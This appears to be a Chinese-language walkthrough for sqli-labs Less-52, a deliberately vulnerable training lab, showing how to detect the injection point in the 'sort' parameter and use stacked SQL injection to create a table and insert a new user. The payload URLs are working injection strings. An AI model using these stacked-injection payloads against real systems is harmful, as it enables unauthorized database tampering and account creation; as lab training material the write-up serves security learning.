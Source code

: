 ```yaml
---
title: Less - 52
date: 2023-03-24T11:19:26Z
lastmod: 2023-03-24T12:54:23Z
---
```


# Less - 52

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1'
```

​![image](assets/image-20230324112854-7mi2r1u.png)​

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1--+
http://192.168.23.128/sqli-labs/Less-52/?sort=1'--+
```

​![image](assets/image-20230324113021-3gynei7.png)​

因为这里没有完整错误回显，所以这里我们只能使用时间盲注，但是在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里我们也可以使用堆叠注入攻击。

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1;create table test like users;--+
```

​![image](assets/image-20230324124923-owe40vv.png)​

​![image](assets/image-20230324125013-cmex9qz.png)​

---

## 3、新建一个用户

---

```http
http://192.168.23.128/sqli-labs/Less-52/?sort=1;insert into users values(18,'cmx','cmx');--+
```

​![image](assets/image-20230324125243-7x6ivk7.png)​

​![image](assets/image-20230324125423-8rsw41b.png)​
